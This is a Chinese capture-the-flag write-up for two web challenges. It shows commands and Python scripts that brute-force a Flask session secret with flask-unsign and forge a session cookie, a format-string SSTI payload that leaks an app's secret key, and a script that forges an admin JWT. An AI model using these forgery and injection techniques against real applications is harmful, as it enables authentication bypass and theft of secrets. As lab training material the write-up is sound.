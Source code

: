 ## [NSSRound#30 Duo]你也是迷宫高手吗

* 考点：JWT秘钥爆破
* 工具：flask-unsign

这道题需要爆破JWT的密钥，然后利用得到的秘钥重新构建jwt，将通关次数和时间进行修改，然后替换原有的cookie发送请求
有一个需要注意的点事由于提交时间只有10秒钟，所以最好直接通过脚本实现提交并捕获响应的html

jwt解析网站：[JSON Web Tokens - jwt.io](https://jwt.io/)

可以先通过抓包获取一个jwt，这里的jwt中的payload段为二进制字节，jwt-tool不能识别，爆破有问题，所以使用flask-unsign

![](./img/DUO-1.png)

填如cookie后执行命令爆破密码：

```sh
flask-unsign --unsign --cookie "eyJjb21wbGV0ZWRfbWF6ZXMiOjAsInN0YXJ0X3RpbWUiOjE3NDg1MjU5NTguODE2NjkxNH0.aDhjhg.U1PH_cd2fPgsL46kad950_bsA8E"
```

![](./img/DUO-2.png)

使用下面的这个脚本发送请求捕获html

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import time
import requests
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

# —— 配置区 —— #
SECRET_KEY = "supersecretkey"
TARGET_URL = "http://node7.anna.nssctf.cn:20995/"

def sign_flask_session(data: dict, secret: str) -> str:
    """
    用 Flask 的内置 SecureCookieSessionInterface 对 data 签名，
    返回可以直接当作 session cookie 的字符串。
    """
    app = Flask(__name__)
    app.secret_key = secret
    serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    return serializer.dumps(data)

def main():
    session = requests.Session()

    # 举例做一次请求，你可以放在循环里做多次
    payload = {
        "completed_mazes": 10,
        "start_time": time.time()
    }
    signed_cookie = sign_flask_session(payload, SECRET_KEY)

    # 把签名好的 session cookie 设到 requests.Session 里
    session.cookies.set("session", signed_cookie, domain="node7.anna.nssctf.cn")

    # 发送 GET 请求
    resp = session.get(TARGET_URL)
    resp.raise_for_status()

    # 输出状态码和前 200 字符做预览
    print(f"[{resp.status_code}] →", resp.text[:200].replace("\n"," "))

    # 如果你要保存最后一次的完整 HTML 到文件：
    with open("final_response.html", "w", encoding="utf-8") as f:
        f.write(resp.text)
    print("✅ 最后一次返回的 HTML 已保存到 final_response.html")

if __name__ == "__main__":
    main()
```

打开得到的html文件，可以看到如下内容：

![](./img/DUO-4.png)


## [MoeCTF 2021]地狱通讯-改
* 考点：JWT，ssti
* 工具：yakit

通过网页源码可以看出有一个简单的逻辑会给我们cookie，然后并且明确说这个cookie是jwt加密的，并且只要payload中的name字段为admin，那么就能够得到flag
```py
from flask import Flask, render_template, request, session, redirect, make_response
from secret import secret, headers, User
import datetime
import jwt

app = Flask(__name__)


@app.route("/", methods=['GET', 'POST'])
def index():
    f = open("app.py", "r")
    ctx = f.read()
    f.close()
    res = make_response(ctx)
    name = request.args.get('name') or ''
    if 'admin' in name or name == '':
        return res
    payload = {
        "name": name,
    }
    token = jwt.encode(payload, secret, algorithm='HS256', headers=headers)
    res.set_cookie('token', token)
    return res


@app.route('/hello', methods=['GET', 'POST'])
def hello():
    token = request.cookies.get('token')
    if not token:
        return redirect('/', 302)
    try:
        name = jwt.decode(token, secret, algorithms=['HS256'])['name']
    except jwt.exceptions.InvalidSignatureError as e:
        return "Invalid token"
    if name != "admin":
        user = User(name)
        flag = request.args.get('flag') or ''
        message = "Hello {0}, your flag is" + flag
        return message.format(user)
    else:
        return render_template('flag.html', name=name)


if __name__ == "__main__":
    app.run()
```

这里由于网页会将通过flag变量传入的参数打印回来，所以可以理解为是一个ssti注入漏洞，直接回显了模块级全局字典，其中就有我们需要的secret key
所以构造payload：
```sh
/hello?flag={0.__class__.__init__.__globals__}
```

![](./img/地狱通讯-1.png)

然后通过下面的脚本实现获取新的jwt：

```py
import jwt              # pip install pyjwt
import datetime

secret  = "u_have_kn0w_what_f0rmat_i5"
payload = {
    "name":  "admin",                    # 想伪造的字段
    "iat":   datetime.datetime.utcnow(), # 签发时间（可选）
    "exp":   datetime.datetime.utcnow() + datetime.timedelta(hours=1)  # 失效时间（可选）
}

# 明确指定同服务器一致的算法
token = jwt.encode(
    payload,
    key=secret,
    algorithm="HS256",
    headers={"typ": "JWT", "alg": "HS256"}   # 可省略，pyjwt 会自动生成
)

print(token)      # PyJWT 2.x 默认返回 str，1.x 返回 bytes

```
替换cookie得到flag

![](./img/地狱通讯-2.png)

---